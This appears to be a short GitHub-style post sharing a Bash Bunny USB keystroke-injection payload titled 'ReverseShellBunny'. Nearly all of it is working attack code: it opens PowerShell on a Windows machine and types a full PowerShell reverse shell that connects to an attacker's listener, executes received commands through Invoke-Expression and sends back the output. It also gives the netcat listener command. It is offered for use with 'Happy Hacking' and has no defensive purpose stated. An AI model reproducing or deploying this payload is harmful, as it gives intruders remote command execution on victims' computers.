 A simple reverse shell for the Bash Bunny. I use it to connect to a Lightsail server. Just enter the IP and Port of the listener. Listener command nc -lnvp then port number. Put payload in switch folder.

Heres the code. Happy Hacking.

#TITLE. ReverseShellBunny #AUTHOR.DarkStorme #Reverse Shell for the Bash Bunny

#!/bin/bash

Set attack mode to HID
ATTACKMODE HID

LED attack indication
LED ATTACK

Open PowerShell
QUACK GUI r QUACK DELAY 500 QUACK STRING powershell.exe QUACK DELAY 500 QUACK ENTER QUACK DELAY 2000

Define the PowerShell payload
PS_PAYLOAD='$client = New-Object System.Net.Sockets.TCPClient("IP ADDRESS",PORT);$stream = $client.GetStream();$bytes = New-Object byte[] 65536;while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {$data = [System.Text.Encoding]::ASCII.GetString($bytes, 0, $i);$sendback = (Invoke-Expression -Command $data 2>&1 | Out-String);$sendbyte = [System.Text.Encoding]::ASCII.GetBytes($sendback);$stream.Write($sendbyte, 0, $sendbyte.Length);$stream.Flush()};$client.Close()'

Send the PowerShell payload
QUACK STRING "$PS_PAYLOAD" QUACK ENTER QUACK DELAY 5000 QUACK GUI d

LED finish indication
LED FINISH